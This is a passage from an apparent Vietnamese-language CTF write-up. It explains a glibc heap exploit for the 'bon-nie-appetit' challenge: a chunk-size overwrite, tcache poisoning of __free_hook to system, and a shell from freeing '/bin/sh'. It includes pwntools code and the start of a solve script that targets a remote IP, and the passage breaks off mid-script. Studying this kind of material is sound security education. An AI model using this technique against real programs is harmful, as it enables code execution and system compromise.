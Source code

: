 ```
nó sẽ như sau : 

```
make(0x28, b'X' * 0x28) # allocate new data at chunk 0
make(0x28, b'Y' * 0x28) # allocate new data at chunk 1
make(0x28, b'Z' * 0x28) # allocate new data at chunk 2

edit(0, b'M' * 0x28 + p8(0x81)) # overflow chunk 0 until and overlap the size field of chunk 2 to 0x81
input()
delete(1) # remove data at chunk 1
delete(2) # remove data at chunk 2
```

lúc này size thằng B là 0x81 , khi free thì chương trình vẫn giữ với cái size đó , trong bins thì thằng B trỏ đến thằng C (B->C)

- khi malloc lại thì ta sẽ ghi đè thằng C bằng hàm hook đó (B-Hook) , vậy nó sẽ như sau 

```
make(0x78, b'D' * 0x28 + pack(0x21) + p64(libc.sym['__free_hook']))
make(0x28, b'/bin/sh\x00') # store /bin/sh strings as FD of chunk 2
make(0x28, p64(libc.sym['system'])) # change _free_hook to system()

delete(2) # trigger overwritten __free_hook() --> system("/bin/sh").
```
malloc đầu tiên là ghi đè thằng C , malloc thứ 2 là phân bổ 1 chunk rác (để /bin/sh  tí free lấy shell luôn)

malloc thứ ba là ghi thằng hook bằng system

lúc này free_hook là system nên chỉ cần gọi free() với chunk chứa chuỗi /bin/sh -> get flag :100: 

script 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bon-nie-appetit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
sh = remote('83.136.252.14',35324)
#gdb.attach(sh,gdbscript='''
#           b*new_order+127
#           b*new_order+211
#           b*edit_order+215
#           b*delete_order+156
#           b*show_order+123
#           b*edit_order+173